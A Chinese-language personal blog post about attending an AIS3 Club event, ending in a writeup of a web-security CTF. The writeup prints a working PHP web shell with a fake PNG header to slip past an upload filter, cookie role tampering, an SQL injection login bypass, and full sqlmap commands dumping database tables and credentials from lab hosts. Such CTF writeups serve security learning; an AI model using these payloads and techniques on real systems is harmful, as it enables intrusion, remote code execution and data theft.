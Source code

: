 ```yaml
---
title: "20231119 AIS3 Club"
date: 2023-11-21T02:06:59+08:00
draft: false
---
```


應該是我第一次參加AIS3的實體活動, 活動共兩天

### Day 1
上午是AIS3的介紹+實境解謎

解謎的題目涵蓋 資訊搜尋 古典密碼 還有~~消耗體力~~

下午則是玩奧義科技的桌遊{{< spoiler >}}但沒有桌子就是了{{< /spoiler>}}

[Cybercans：資安人生物語](https://hackmd.io/@samuel-t-chou/H1lVj28T_#Cybercans%EF%BC%9A%E8%B3%87%E5%AE%89%E4%BA%BA%E7%94%9F%E7%89%A9%E8%AA%9E)

![image](/20231119/cybercans.jpg)

{{< extended 小小心得 >}}這遊戲玩起來就是看著自己不停的骰到被攻擊的格子 然後看著自己的防禦被各種打穿 開局骰第一次直接被打穿兩次 {{< /extended >}}

桌遊結束後就是交流的pizza party了

![image](/20231119/pizzap.jpg)

### Day 2

第二天就是滿滿的網頁安全CTF了
蠻神奇的是我旁邊坐了一位弘光科大的教授

以下是writeup

### Introduction
![image](/20231119/introduction.png)

### Welcome
![image](/20231119/welcome.png)


在respond封包裡找到flag
![image](/20231119/welcome-2.png)

### Never Login
![image](/20231119/never_login.png)
![image](/20231119/never_login-3.png)
![image](/20231119/never_login-2.png)

html中有 JS 會阻擋密碼送出, 在設定中打開`禁用JavaScript`, 並將最下方找到的密碼送出就能拿到flag

### Who are you
![image](/20231119/whoareyou.png)
![image](/20231119/whoareyou-2.png)

隨便填`username`然後改cookie中的`role`為`admin`就能拿到flag

### dir
![image](/20231119/dir.png)

使用 `dirsearch` 之類的工具可以找到這題的網頁下有兩個資料夾
```shell
dirsearch -u https://dir.entroy.tk --random-agent 
->
[11:56:19] 301 -  236B  - /admin  ->  http://dir.entroy.tk/admin/
[11:56:52] 301 -  236B  - /image  ->  http://dir.entroy.tk/image/ 
```

搜尋`/admin`
```
[12:56:22] 200 -    2KB - /admin/manage.php
```
可以看到有一個`/admin/manage.php`的頁面的狀態碼是200代表可以正常訪問
在`/admin/manage.php`的html中可以找到flag

### Image Space 0x01 

![image](/20231119/upload.png)

上傳一個web shell的檔案
先把JS關掉以免php的檔案被擋

網路上找到的web shell code
在前面加上.PNG 欺騙伺服器
``` 
.PNG <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
最後透過 web shell 找到flag

### Boolean based SQL Injection 
![image](/20231119/sqlib.png)

![image](/20231119/sqlib2.png)

嘗試往輸入欄填入可能會造成錯誤的文字
得到
```sql
SELECT * FROM user WHERE username =(""'") AND password = ("")
```

嘗試 `admin")#`

![image](/20231119/sqlib3.png)
拿到flag

### Union Select
![image](/20231119/ubsqli.png)
![image](/20231119/ubsqli2.png)
用`sqlmap`檢查database
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs

->
[19:47:35] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] union_based_sqli
```

檢查`union_base_sqli`中的`table`
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables

-> 
[19:51:32] [INFO] fetching tables for database: 'union_based_sqli'
Database: union_based_sqli
[2 tables]
+--------------+
| h1dd3n_tab13 |
| users        |
+--------------+
```

檢查`h1dd3n_tab13`中的`columns`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns

->
[19:53:15] [INFO] fetching columns for table 'h1dd3n_tab13' in database 'union_based_sqli'
Database: union_based_sqli
Table: h1dd3n_tab13
[1 column]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| secret_flag | varchar(100) |
+-------------+--------------+
```

提取出`secret_flag`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns -C secret_flag --dump

->
[19:55:06] [WARNING] reflective value(s) found and filtering out
Database: union_based_sqli
Table: h1dd3n_tab13
[1 entry]
+---------------------------------------------------------+
| secret_flag                                             |
+---------------------------------------------------------+
| flag{Un10n_B@s3d_SQL1_25e406a0db22ea899d8ddd72958254fd} |
+---------------------------------------------------------+
```

### Easy Real World
情境源自[HITCON ZeroDay 高雄鳳山統一當鋪資料庫注入漏洞](https://zeroday.hitcon.org/vulnerability/ZD-2019-01191)

觀察當中幾個頁面的url

`https://target.entroy.tk/service_open.php?id=1`

好像可以用`sqlmap`掃一下
```bash
sqlmap https://target.entroy.tk/service_open.php?id=1 -p id --level 5 --risk 3 --batch --random-agent

-> 
[19:58:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=20 AND 8277=8277

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-8195 UNION ALL SELECT NULL,CONCAT(0x7178716271,0x42754c584747795378524b4559736c494c75754344475278674c734f59436a655555697a43426179,0x716b6a7a71),NULL,NULL-- -
---
```

開始找有用的資訊...

最後在 `tongyi->master`中找到帳號密碼

```bash
sqlmap https://target.entroy.tk/service_open.php?id=20 -p id --level 5 --risk 3 --batch --random-agent --technique BU -dbs -D tongyi --tables -T master --columns --dump
```

開始找登入介面

```bash
dirsearch -u https://target.entroy.tk/ --random-agent

->
[20:04:33] 301 -  236B  - /js  ->  http://target.entroy.tk/js/                           
[20:05:37] 200 -    6KB - /about.php               
[20:07:29] 200 -    7KB - /contact.php  
[20:07:30] 301 -  241B  - /control  ->  http://target.entroy.tk/control/    
[20:07:33] 301 -  237B  - /css  ->  http://target.entroy.tk/css/       
[20:08:05] 200 -    1KB - /footer.php                                       
[20:08:17] 200 -  770B  - /header.php                       
[20:08:26] 301 -  240B  - /images  ->  http://target.entroy.tk/images/     
[20:08:58] 200 -    5KB - /map.php                                          
[20:09:12] 200 -    9KB - /news.php                                         
[20:09:57] 200 -    0B  - /settings.php                                     
[20:10:17] 302 -    0B  - /system/  ->  key.php                             
[20:10:17] 301 -  240B  - /system  ->  http://target.entroy.tk/system/      
[20:10:33] 301 -  240B  - /upload  ->  http://target.entroy.tk/upload/                                     
```

連到`system/key.php` 找到登入介面

使用前面找到的帳密做登入
成功進到後台
![image](/20231119/realworld.png)

找地方上傳 web shell
然後就可以RCE了

{{< extended qwq >}}
但我找不到flag
{{< /extended >}}